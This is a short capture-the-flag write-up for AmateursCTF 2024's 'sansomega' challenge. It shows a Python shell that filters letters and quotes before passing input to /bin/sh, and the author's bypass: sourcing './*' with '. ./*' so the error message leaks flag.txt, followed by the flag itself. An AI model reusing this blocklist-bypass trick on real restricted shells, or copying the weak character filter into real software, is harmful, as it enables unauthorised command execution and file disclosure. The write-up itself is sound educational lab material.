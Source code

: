 ```yaml
---
title: "sansomega"
description: "Somehow I think the pico one had too many unintendeds...\nSo I left some more in :)"
pubDate: 2024-04-10
ctf: "AmateursCTF 2024"
category: "misc"
author: "sealldev"
section: "CTFs"
image: "images/24-amateursctf/icon.png"
---
```


We are given a `shell.py` which is the following:
```python
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()
```

Now, I'm very new to attempting a pyjail. So I approached this by, a lot of trial and error. My first thought was to utilise `*` and `./` as all of those symbols are allowed.
```
$ ./*
/bin/sh: 1: ./flag.txt: Permission denied
```

So the flag is in our directory, how to read it?

I remember from messing around with symbols previously that `.` is actually `source`, so can I read the flag with `. ./*`?

```
$ . ./*
/bin/sh: 1: ./flag.txt: amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}: not found
```

Yes I can!

Flag: `amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}`